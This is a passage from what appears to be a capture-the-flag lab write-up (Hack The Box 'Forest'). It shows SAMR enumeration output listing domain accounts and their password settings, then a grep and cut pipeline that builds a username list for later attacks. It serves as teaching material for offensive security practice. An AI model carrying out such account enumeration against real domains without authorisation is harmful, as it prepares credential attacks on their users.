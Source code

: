 ```
mark (1151)/LogonCount: 0
mark (1151)/PasswordLastSet: 2019-09-20 18:57:30.243568
mark (1151)/PasswordDoesNotExpire: True
mark (1151)/AccountIsDisabled: False
mark (1151)/ScriptPath: 
santi (1152)/FullName: Santi Rodriguez
santi (1152)/UserComment: 
santi (1152)/PrimaryGroupId: 513
santi (1152)/BadPasswordCount: 0
santi (1152)/LogonCount: 0
santi (1152)/PasswordLastSet: 2019-09-20 19:02:55.134828
santi (1152)/PasswordDoesNotExpire: True
santi (1152)/AccountIsDisabled: False
santi (1152)/ScriptPath: 
[*] Received 31 entries.
```

As mentioned, enumerating through SAMR gave us visibility over all users including mailbox accounts. From this we can also build a user list easily:
```
root@kali:~/Documents/HTB-Labs/Forest# cat Forest_impacted-samr.txt | grep "Found user*" | cut -d":" -f2 | cut -d"," -f1 | tr -d " " > Forest_users.txt

root@kali:~/Documents/HTB-Labs/Forest# cat Forest_users.txt
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
chris
```
